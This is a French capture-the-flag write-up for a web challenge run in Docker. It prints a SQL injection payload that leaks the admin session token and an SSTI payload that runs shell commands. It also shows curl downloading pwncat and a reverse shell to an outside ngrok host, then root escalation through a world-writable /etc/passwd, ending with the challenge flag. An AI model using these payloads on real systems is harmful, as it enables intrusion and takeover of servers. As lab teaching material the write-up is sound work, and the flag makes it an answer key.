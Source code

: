 Pour lancer le challenge :
```
sudo docker-compose up -d --build
```

_________________________________

Pour la première étape de résolution, après avoir fait un rapide tour du site on se rend compte qu'il y a un formulaire de connexion et un formulaire de création de compte sur "/register".
Le champs `username` de création de compte est vulnérable aux SQL Injection.

En plaçant la payload suivante, et en créant un compte en suivant les restrictions d'usage, après validation le token de session du compte administrateur devrait apparaitre sur la page :
```
test' AND 1=0 UNION SELECT session_token from users WHERE username='admin';--
```
# ADMIN COOKIE : "bd65600d-8669-4903-8a14-af88203add38"

# Restrictions SQLi:
# username entre 4 et 80 caractères
# caractères interdits ][_!#$%^&*()<>?/\|}{:'"

Ensuite, il est possible de se connecter au compte de l'administrateur en remplaçant notre cookie de session par le sien. (Ou en utilisant son mot de passe en fonction de la payload utilisé.)
A ce moment, une nouvelle page "/admin" apparait.
Sur cette page, un panda qui mange un bambou.
En bas de la page, ce trouve différentes "features", tels que "photo" pour allumer la caméra, "print" pour imprimer la page web, ou "date" pour avoir la date actuelle.
Ces dernières sont défini via un paramètre ***GET*** `cmd`.
En modifiant la valeur du pramètre, nous pouvons voir que le contenu est reflété sur la page. Il est alors possible d'essayer différentes payload, jusqu'à comprendre que ce dernier est vulnérable aux SSTI.

A ce stade, il est alors possible d'exécuter des commandes système sur le serveur distant.
```http
http://127.0.0.1:5000/admin?cmd={{cycler.__init__.__globals__.os.popen('ls').read()}}

ou 

http://127.0.0.1:5000/admin?cmd={{cycler.__init__.__globals__.os.popen('curl https://raw.githubusercontent.com/cytopia/pwncat/master/bin/pwncat > pwncat').read()}}
http://127.0.0.1:5000/admin?cmd={{cycler.__init__.__globals__.os.popen('chmod 777 pwncat').read()}}
http://127.0.0.1:5000/admin?cmd={{cycler.__init__.__globals__.os.popen('./pwncat -e “/bin/bash” 4.tcp.ngrok.io 19011').read()}}

```

# Restrictions SSTI:
# taille limité à 70 caractères
# caractères interdits "#&;[]|

Dans un dernier temps, une fois sur la machine, il faut réussir à faire une montée en privilège afin de devenir super utilisateur "root".
Pour cela, rien de plus simple, un fichier important du système est accessible en lecture/écriture pour tous.
Ce fichier "/etc/passwd", quand il est possible d'écrire à l'intérieur permet de rajouter un utilisateur et possiblement de lui accorder les accès root.
Avec les commandes suivantes, il est possible de créer l'utilisateur "dummy" lié au dossier "/root".
```
echo 'dummy::0:0::/root:/bin/bash' >> /etc/passwd
su - dummy
```

Alors il ne reste plus qu'à regarder dans le dossier "/root" pour pouvoir lire le FLAG du challenge :

```
IMustSayC0ngratulat1Ons?ID0ntCar3#Go3at1ngBamb00
```